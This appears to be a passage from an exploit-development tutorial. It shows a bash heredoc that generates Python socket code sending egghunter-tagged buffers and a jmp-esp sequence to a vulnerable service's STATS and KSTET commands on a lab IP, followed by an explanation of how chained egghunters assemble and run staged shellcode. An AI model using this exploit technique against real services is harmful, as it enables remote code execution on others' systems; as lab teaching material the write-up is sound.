 ```
EGG=$(echo -n "${EGG_SEQ:${C_COUNT}:1}${EGG_BASE}" | xxd -p)
cat << EOF 
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.186.135", 9999))

message  = "STATS "
message += "/.:/ "

# Cave ${C_COUNT} (${EGG}):
$(echo -n "${EGG}${EGG}${CAVE}" | hex)

message += buf
message += "\x68\x47\x47\x47\x47"
message += "\x68\x47\x47\x47\x47"
message += "\x68\x47\x47\x47\x47"
message += "\x68\x47\x47\x47\x47"
message += "\xff\xe4"
message += '\n'
s.send(message)
s.close()
EOF
```

It is necessary to call `time.sleep()` for a brief period between buffers to
ensure that the prior connection is closed before the next link is submitted,
lest we receive an error resulting in a missing link in our chain.

### Execution
When we execute the output of this script and follow it up with our `KSTET`
exploit, we see that the program's execution is redirected to the first
egghunter, which finds the egg `W00AW00A`, pushes a few lines of shellcode onto
the stack, and kicks off an egghunter in search of `W00BW00B`, and so on.
Finally, the last section pushes the tail of the shellcode onto the stack, pads
it with 16 `NOP`s, and jumps to the top of the stack to execute the final stage
of the payload.  
